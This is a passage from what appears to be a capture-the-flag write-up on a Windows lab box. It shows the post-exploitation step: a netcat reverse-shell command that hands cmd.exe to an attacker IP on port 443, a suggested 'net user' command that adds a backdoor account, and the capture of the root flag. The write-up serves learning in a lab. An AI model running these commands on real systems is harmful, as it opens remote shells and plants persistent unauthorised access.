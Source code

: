 (I'm not sure why sometimes on Windows targets I get two hits on my Python server. If anyone knows feel free to reach out!)

Now that nc.exe is on the box, all I need to do is set up a NetCat listener and issue:

```text
nc.exe -e cmd.exe 10.6.61.45 443
```

![shell.png](../assets/blueprint_assets/shell.png)

Cool, now we're in business, and have a bit more stable of a shell. If I wanted even more persistence, and because I'm nt\system on the target, I could do something like:

```text
net user hacker password123 /add
```

But that is likely overkill for our purposes here today. 

Lets go ahead and grab the root.txt flag:

![root_flag.png](../assets/blueprint_assets/root_flag.png)
